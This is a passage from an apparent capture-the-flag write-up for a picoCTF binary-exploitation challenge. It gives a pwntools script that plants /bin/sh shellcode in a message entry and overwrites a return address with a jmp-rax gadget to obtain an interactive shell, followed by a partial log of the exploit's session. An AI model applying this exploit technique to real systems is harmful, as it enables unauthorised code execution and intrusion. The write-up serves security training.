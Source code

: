 ```py
	writeline(b'2')
	writeline(str(n).encode('ascii'))
	writeline(msg)

def feedback(msg):
	writeline(b'3')
	writeline(msg)

# Open 10 entries
for i in range(10):
	add_entry(b'a')

context.arch = 'amd64'
shellcode = asm(shellcraft.amd64.linux.sh())

# Step 1: Set up shellcode in last entry
send_msg(9, shellcode)

# Step 2: Short jmp to shellcode in beginning of payload, overwrite
# return address at the end of payload to jump to rax

# Location of code containing jmp rax
jmp_rax = 0x40116c
# Jump 70 bytes back, accounting for these two bytes themselves too
jmp_to_shell= b'\xeb\xba'
padding = (b'\x00' * (20 - len(jmp_to_shell)))
payload = jmp_to_shell + padding + p64(jmp_rax)
assert len(payload) == 28, payload

feedback(payload)

# ===

f.close()
conn.interactive()
```

Example interaction:

```
[+] Opening connection to shape-facility.picoctf.net on port 54699: Done
[*] Switching to interactive mode
What option would you like to do?
1. Add a new recipient
2. Send a message to a recipient
3. Exit the app
What's the new recipient's name: 
What option would you like to do?
1. Add a new recipient
2. Send a message to a recipient
3. Exit the app
What's the new recipient's name: 
What option would you like to do?
1. Add a new recipient
2. Send a message to a recipient
3. Exit the app
What's the new recipient's name: 
What option would you like to do?
1. Add a new recipient
2. Send a message to a recipient
3. Exit the app
What's the new recipient's name: 
What option would you like to do?
1. Add a new recipient
```